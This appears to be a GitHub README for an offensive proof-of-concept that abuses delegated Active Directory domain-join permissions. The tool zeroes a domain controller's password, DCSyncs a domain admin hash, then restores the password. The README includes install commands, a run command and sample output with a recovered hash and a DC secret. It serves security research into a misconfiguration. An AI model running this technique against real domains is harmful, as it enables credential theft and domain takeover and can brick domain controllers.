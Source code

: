 # SetZeroSync

POC to demonstrate what can be done when domain join permissions are over provisioned. More details can be found [here](https://specterops.io/blog/2025/10/01/writeaccountrestrictions-war-what-is-it-good-for/). 

## Disclaimer  

Don't run this in prod. This uses vanilla Impacket libraries which are heavily signatured. EDR will block you when recovering credentials. The result is a bricked DC. 

## TL:DR;

Don't run in prod. The permissions below are the minimum [recommended](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/manage/active-directory-domain-join-permissions) to delegate domain join permissions in AD. If delegated at the domain root, the permission is inherited by domain controllers. This can be abused to force reset a DC's password, DCSYNC a DA credential, and then restore the previous password. 



```
Read
Read all properties
List contents
Allowed to authenticate
Change password
Reset password
Validated write to DNS host name
Validated write to service principal name
Write account restrictions (for updating UserAccountControl)
```

# Installation

```
git clone https://github.com/garrettfoster13/SetZeroSync.git
cd SetZeroSync
uv sync
```


# Example output

```
➜  SetZeroSync git:(main) ✗ uv run setzerosync.py -u domain_join -p password -d unsigned-sh0rt.net -dc-ip 10.6.10.10 -dc dc01\$ -da domainadmin
[*] Searching for DC...
[*] Setting empty password on DC
[+] DC password zeroed out!
[*] Searching for target domain admin...
[+] Got target user domainadmin hash: 8846f7eaee8fb117ad06bdd830b7586c
[*] Trying to get DC hex password...
[*] Dumping LSA secrets only
[+] Got target DC hex pass!
[+] Got DC hexpass: 1af70b45ed6bbb3a8eb7d7c4baa2d197bb1d3c35d08aa0087dc456240b464cd377ab335861b647c3a3f60dd898cbbd88dc2549dd8264fa0c043d116e3aa46c719c9a73483d94e8d3943ae42ffe0cd92de40442855dfe422b8e6efee838eebcbb511e43649c29f60ebb3bacf801d4a3ba4d65ff0e6e2572a6f5d2086a742d1143e9a78e136f9ffc67f0bd38a0852760d63e21eaf25a7b8fdd8bb27a914bf67925dfef381abc102ad0c50e1792da26ab7c0169243bc339c6d0a39f4fdd3d14d69f5cf0dfcdc6699d726a96658022a550df8eeeec0167eec7935e559ecc1e9c69a15d547252e03b58b3b0863cef7e2995a4
[*] Restoring DC password with hexpass
[+] DC password restored successfully!
```





![alt text](./images/wholeflow.png)